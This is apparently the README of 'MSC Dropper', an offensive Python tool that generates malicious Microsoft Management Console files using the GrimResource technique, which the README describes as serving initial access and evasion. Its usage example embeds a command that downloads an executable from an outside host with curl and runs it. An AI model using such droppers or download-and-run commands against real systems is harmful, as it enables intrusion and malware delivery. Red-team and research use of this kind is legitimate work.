 # MSC Dropper Tool

MSC Dropper is a Python script designed to automate the creation of MSC (Microsoft Management Console) files with customizable payloads for arbitrary execution. This tool leverages a method discovered by Samir (@SBousseaden) from Elastic Security Labs, termed #GrimResource, which facilitates initial access and evasion through `mmc.exe`.

## Overview

The script allows users to generate MSC files that can execute arbitrary commands or scripts within the Microsoft Management Console environment. This capability is particularly useful for security research and testing environments.

## Features

- **Automated MSC File Generation**: Create MSC files with specified commands or scripts embedded.
- **Payload Customization**: Customize the payload to execute any command or script that `mmc.exe` can invoke.
- **Command-Line Interface**: Simple command-line interface for quick generation of MSC files.

## Installation

Clone the repository:

   ```bash
   git clone https://github.com/your-username/msc-dropper.git
   ```

## Usage

### Generating an MSC File

To generate an MSC file with a specific command or script:

```bash
python msc_dropper.py template1.msc out.msc "cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"
```

Replace `"cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"` with the command or script you want to execute. Ensure that the command is formatted correctly to work within the Windows environment and `mmc.exe`.

### Customizing Payloads

You can customize the payload directly within the `template1.msc` file or modify the script to automate more complex payload generation.

## Contributing

Contributions are welcome! Please fork the repository and submit pull requests.

## Credits

- Samir (@SBousseaden) from Elastic Security Labs for discovering the initial access and evasion method involving `mmc.exe`.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
